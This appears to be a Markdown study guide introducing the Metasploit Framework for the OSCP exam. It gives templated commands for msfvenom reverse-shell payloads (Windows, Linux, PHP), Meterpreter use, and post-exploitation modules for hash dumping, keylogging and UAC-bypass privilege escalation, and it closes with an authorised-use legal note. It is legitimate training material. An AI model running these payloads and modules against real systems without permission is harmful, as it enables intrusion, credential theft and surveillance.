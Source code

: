 # Introduction to Metasploit Framework

Metasploit Framework is a powerful penetration testing platform that enables you to find, exploit, and validate vulnerabilities. This guide covers the basics of Metasploit for the OSCP exam.

## 📋 Table of Contents
1. [Metasploit Architecture](#metasploit-architecture)
2. [Basic Commands](#basic-commands)
3. [Exploit Modules](#exploit-modules)
4. [Payloads](#payloads)
5. [Meterpreter](#meterpreter)
6. [Post-Exploitation](#post-exploitation)
7. [Practice](#-practice)

## Metasploit Architecture

### Components
- **msfconsole**: Main interface
- **Modules**: Exploits, payloads, encoders, etc.
- **Database**: Stores scan results and session data
- **Plugins**: Extend functionality

### Directory Structure
```
/usr/share/metasploit-framework/
├── modules/
│   ├── exploits/    # Exploit modules
│   ├── payloads/    # Payloads
│   ├── auxiliary/   # Scanning and enumeration
│   └── post/        # Post-exploitation
├── scripts/         # Meterpreter scripts
└── tools/           # Additional tools
```

## Basic Commands

### Starting Metasploit
```bash
# Start PostgreSQL service
sudo systemctl start postgresql

# Initialize database
msfdb init

# Start msfconsole
msfconsole
```

### Help System
```msf
# General help
help

# Module-specific help
info

# Search for modules
search [keyword]

# Use a module
use [module_path]
```

### Database Commands
```msf
# List all hosts
hosts

# List all services
services

# Import scan results
db_import nmap.xml
```

## Exploit Modules

### Selecting an Exploit
```msf
# Search for exploits
search [vulnerability]

# Select an exploit
use exploit/[path]

# Show options
show options

# Set required options
set RHOSTS [target]
set RPORT [port]

# Run the exploit
exploit
```

### Common Exploit Options
- **RHOSTS**: Target address(es)
- **RPORT**: Target port
- **LHOST**: Your IP
- **LPORT**: Port to connect back to
- **TARGET**: Select target platform/version

## Payloads

### Types of Payloads
- **Singles**: Self-contained (e.g., windows/shell_reverse_tcp)
- **Stagers**: Establishes connection
- **Stages**: Downloads additional components

### Generating Payloads
```bash
# Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > shell.exe

# Linux reverse shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > shell.elf

# PHP reverse shell
msfvenom -p php/reverse_php LHOST=[IP] LPORT=[PORT] -f raw > shell.php
```

## Meterpreter

### Basic Commands
```meterpreter
# System info
sysinfo

# Get user ID
getuid

# Get system privileges
getsystem

# List processes
ps

# Migrate to another process
migrate [PID]
```

### File System Commands
```meterpreter
# List files
ls

# Change directory
cd [directory]

# Download file
download [file]

# Upload file
upload [local_file] [remote_path]
```

## Post-Exploitation

### Common Modules
```msf
# Dump hashes
use post/windows/gather/hashdump

# Keylogger
use post/windows/capture/keylog_recorder

# Screenshot
use post/windows/gather/screen_spy
```

### Privilege Escalation
```meterpreter
# Check for local exploits
run post/multi/recon/local_exploit_suggester

# Try common exploits
use exploit/windows/local/bypassuac
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

## 🛠 Tools

### Metasploit Tools
- **msfconsole**: Main interface
- **msfvenom**: Payload generator
- **msfdb**: Database management
- **armitage**: GUI for Metasploit

### External Tools
- **Nmap**: Network scanning
- **Wireshark**: Network analysis
- **Burp Suite**: Web application testing

## 📚 Resources
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [Metasploit Documentation](https://docs.rapid7.com/metasploit/)
- [Metasploit Cheat Sheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

## 🎯 Practice
1. Set up a Metasploitable VM
2. Practice using different exploit modules
3. Generate and test various payloads
4. Practice post-exploitation techniques

## ⚠️ Legal Note
Only use Metasploit on systems you own or have explicit permission to test. Unauthorized testing is illegal.
